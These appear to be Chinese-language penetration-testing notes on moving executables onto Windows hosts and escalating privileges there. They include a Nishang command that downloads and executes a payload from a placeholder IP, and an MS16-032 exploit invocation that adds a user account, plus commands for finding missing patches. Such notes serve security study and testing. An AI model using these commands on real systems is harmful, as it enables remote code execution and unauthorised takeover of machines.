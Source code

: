 - 利用Debug上传(只支持小于64kb文件)

```
kali linix位置
/usr/share/windows-binaries
```
```
转为十六进制

wine exe2bat.exe ew.exe ew.txt
```

- Nishang

>> exetotext.ps1 

```
转换
.\ExetoText c:msf.exe c:msf.txt

下载并执行文本文件
Download_Execute http://xxx.xxx.xx.xx/msf.txt
```

- bitsadmin(xp之后自带)
- powershell下载

## 权限提升分析及防御
### 系统内核溢出漏洞提权
#### 通过手动执行命令发现缺失补丁

- 补丁参考

>https://github.com/SecWiki/windows-kernel-exploits

```
whoami /groups 查看当前权限
systeminfo 查看补丁
Wmic qfe get Caption,Description,HotFixID,INstalledOn 列出已经安装的补丁

Caption,Description,HotFixID,INstalledOn | findstr /c:"KB3143141"  /c:"KB316902" 查找指定补丁
```
- MS16-032.ps1(KB3139914)

```
Invoke-MS16-032 -APPlication cmd.exe -Commandline "/c net user 1 1 /add"

Invoke-MS16-032 -APPlication cmd.exe notpad.exe
```

- 利用meatsploit发现缺失补丁

```
post/windows/gather/enum_patches模块
```

- Windows Exploit Suggester
